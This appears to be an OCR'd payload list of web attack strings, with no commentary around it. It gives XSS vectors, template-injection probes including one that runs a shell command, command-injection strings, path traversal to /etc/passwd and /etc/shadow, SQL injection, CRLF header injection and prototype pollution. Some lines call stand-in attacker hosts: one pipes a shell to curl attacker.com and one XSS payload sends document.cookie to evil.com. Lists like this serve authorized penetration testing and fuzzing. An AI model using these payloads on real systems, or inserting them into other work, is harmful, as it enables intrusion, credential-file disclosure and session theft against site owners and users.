 "><script>alert(1)</script>
"><svg/onload=alert(1)>
<iframe srcdoc="<script>alert(1)</script>">
<img src=x onerror=confirm(1)>
<math><mtext></title><script>alert(1)</script>
<video><source onerror=alert(1)>
"><body onload=alert(1)>
<marquee onstart=confirm(1)>
javascript:alert(1)
<iframe src=javascript:alert(1)>
<svg><animate onbegin=alert(1)>
'"><svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
{{7*7}}
${7*7}
<%= 7 * 7 %>
#{7*7}
{{config}}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
;id
|whoami
`uname -a`
$(id)
& cat /etc/passwd
| ping -c 1 127.0.0.1
; sleep 5
|| echo vulnerable
$(curl attacker.com)
";cat /etc/passwd;#
../../../../../../etc/passwd
....//....//....//etc/passwd
..%2f..%2f..%2fetc/passwd
%2e%2e/%2e%2e/%2e%2e/etc/passwd
../../../../../../../proc/self/environ
../../../../../../../../usr/local/apache2/conf/httpd.conf
' OR '1'='1
" OR "1"="1
admin' --
admin" --
'||'1'='1
' or 1=1-- -
admin'#
' AND 1=1#
1' AND SLEEP(5)--
%0d%0aSet-Cookie:%20crlf=inject
%0a%0dLocation:%20https://evil.com
%0d%0aContent-Length:%200
%0d%0aContent-Type:%20text/html
__proto__[test]=123
constructor[prototype][x]=1337
__defineSetter__=1337
__proto__.x=1
__proto__.polluted=1
../../../etc/shadow
../../../../../../boot.ini
..%2f..%2f..%2fwindows/win.ini
../../../../../../../../etc/hosts
/../../../../../../../../../etc/passwd
/../../../../../../../../../boot.ini
../../../../../../../../dev/null
../../../../../../../../dev/random
/../../../../../../../../../../../../etc/group
";echo 123456789;
';echo 123456789;
";sleep 5;
';sleep 5;
"><b onclick=alert(1)>CLICK
'"><a href=javascript:alert(1)>click</a>
"><input onfocus=alert(1) autofocus>
"><details open ontoggle=alert(1)>
"><marquee onstart=alert(1)>
${@print(md5(1))}
*(){{}}
[object Object]
<%={{7*7}}%>
<%={{config}}%>
<% response.write(7*7) %>
$((sleep 5))
"><img src=x onerror='fetch("https://evil.com?"+document.cookie)'>
<iframe src="javascript:alert('xss')">
